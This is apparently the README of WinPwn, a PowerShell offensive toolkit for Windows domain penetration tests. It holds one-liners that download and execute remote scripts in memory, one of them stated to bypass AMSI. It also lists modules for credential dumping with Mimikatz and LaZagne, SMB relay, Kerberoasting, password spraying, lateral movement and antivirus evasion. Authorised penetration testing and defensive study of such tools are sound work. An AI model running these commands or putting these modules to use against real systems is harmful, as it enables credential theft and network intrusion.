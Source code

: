 [![](https://img.shields.io/badge/Donate-Bitcoin-blue.svg?style=flat)](https://blockchain.info/address/1MXReD1F4w5SUXK3phLVJ5M8KrXJHfecmZ)

# WinPwn
In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. I often ran the same scripts one after the other to get information about the current system and/or the domain. To automate this process and for the proxy reason I wrote my own script with automatic proxy recognition and integration. 
The script is mostly based on well-known large other offensive security Powershell projects. They are loaded into RAM via IEX Downloadstring.

Yes it is not a C# and it may be flagged by antivirus solutions. Windows Defender for example blocks some of the known scripts/functions. Maybe someday a C# Version will follow.

Any suggestions, feedback and comments are welcome!

Just Import the Modules with:
`Import-Module .\WinPwn.ps1` or 
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn.ps1')`

For AMSI Bypass use the following oneliner:
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/ObfusWinPwn.ps1')`

Functions available after Import:
* #### `WinPwn` -> Menu to choose attacks:
![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn.JPG)
* #### `Inveigh` -> Executes Inveigh in a new Console window , SMB-Relay attacks with Session management (Invoke-TheHash) integrated
* #### `sessionGopher` -> Executes Sessiongopher Asking you for parameters
* #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz
* #### `localreconmodules` -> 
  * Checks the Powershell event logs for credentials or other sensitive informations
  * Checks for WSUS Server over HTTP (Fake Update vulnerability)
  * Checks the local SMB-Signing state
  * Collects various local system informations (Installed Software + vulnerable software, Shares, privileges, local groups, network information
  * Searches for passwords in the registry as well as in files on the hard disk + Browser Credentials
  * Search for .NET Binaries on the local system (which can be reverse engineered for vulnerability analysis) 
  * Optional: Get-Computerdetails (Powersploit) , Just another Windows Privilege escalation script, Winspect
* #### `domainreconmodules` -> 
  * Powerview function output gets stored on disk for review. 
  * A search for AD-Passwords in description fields is done. 
  * Unconstrained delegation systems/users are enumerated. 
  * SQL Server discovery and Auditing functions (default credentials, passwords in the database and more).
  * MS-RPRN Check for Domaincontrollers
  * An AD-Report is generated in CSV Files (or XLS if excel is installed) with ADRecon. 
* #### `Privescmodules` -> Executes different privesc scripts in memory (PowerUp Allchecks, Sherlock, GPPPasswords)
* #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) 
* #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. DomainPassword-Spray for new Credentials can also be used here.
* #### `empirelauncher` -> Launch powershell empire oneliner on remote Systems
* #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder (Powerview / Powersploit)
* #### `groupsearch` -> Get-DomainGPOUserLocalGroupMapping - find Systems where you have Admin-access or RDP access to via Group Policy Mapping (Powerview / Powersploit)
* #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
* #### `powerSQL` -> SQL Server discovery, Check access with current user, Audit for default credentials + UNCPath Injection Attacks
* #### `Sharphound` -> Downloads Sharphound and collects Information for the Bloodhound DB
* #### `adidnswildcard` -> Create a Active Directory-Integrated DNS Wildcard Record and run Inveigh for mass hash gathering.
* #### `MS17-10` -> Scan active windows Servers in the domain or all systems for MS17-10 (Eternalblue) vulnerability
* #### `Sharpcradle` -> Specify an URL to a C# File and Arguments to load them to RAM and execute after

The submodule is a forked and edited version of https://github.com/Cn33liz/p0wnedShell. You can compile it yourself and use it for powershell restriction bypass and AMSI-Bypass. Most AV-Solutions can be evaded this way. Just run the executable File, choose 17. and execute WinPwn.

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/p0wnedmenu.PNG)

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/p0wned.png)

## TO-DO
- [x] Some obfuskation
- [ ] More obfuscation
- [ ] Proxy via PAC-File support
- [x] Get the scripts from my own creds repository (https://github.com/SecureThisShit/Creds) to be independent from changes in the original repositories
- [ ] More Recon/Exploitation functions
- [ ] msDS-AllowedToActOnBehalfOfOtherIdentity Ressource based constrained delegation
- [x] Add MS17-10 Scanner
- [x] Add menu for better handling of functions
- [x] Amsi Bypass

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Pwn.png)

## CREDITS

- [X] [Kevin-Robertson](https://github.com/Kevin-Robertson/) - Inveigh, Powermad, Invoke-TheHash
- [X] [Arvanaghi](https://github.com/Arvanaghi/) - SessionGopher
- [X] [PowerShellMafia](https://github.com/PowerShellMafia/) - Powersploit
- [X] [Dionach](https://github.com/Dionach/) - PassHunt
- [X] [A-mIn3](https://github.com/A-mIn3/) - WINSpect
- [X] [411Hall](https://github.com/411Hall/) - JAWS
- [X] [sense-of-security](https://github.com/sense-of-security/) - ADrecon
- [X] [dafthack](https://github.com/dafthack/) - DomainPasswordSpray
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Sherlock
- [X] [AlessandroZ](https://github.com/AlessandroZ/) - LaZagne
- [X] [samratashok](https://github.com/samratashok/) - nishang
- [X] [leechristensen](https://github.com/leechristensen/) - Random Repo
- [X] [HarmJ0y](https://github.com/HarmJ0y) - Many good Blogposts, Gists and Scripts
- [X] [NETSPI](https://github.com/NetSPI/) - PowerUpSQL
- [X] [Cn33liz](https://github.com/Cn33liz/) - p0wnedShell
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Amsi AmsiScanBufferBypass

## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
